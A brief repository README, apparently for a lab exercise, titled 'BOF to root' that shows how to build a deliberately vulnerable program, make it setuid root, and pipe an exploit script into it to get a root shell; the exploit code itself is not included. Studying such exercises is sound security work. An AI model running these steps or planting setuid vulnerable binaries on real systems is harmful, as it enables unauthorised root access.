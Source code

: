 # BOF to root
Complete example for BoF to get a root shell.

```
make
make realuid
sudo chown root:root bof
sudo chmod 4755 bof
(python exploit.py; cat - ) |./bof
```
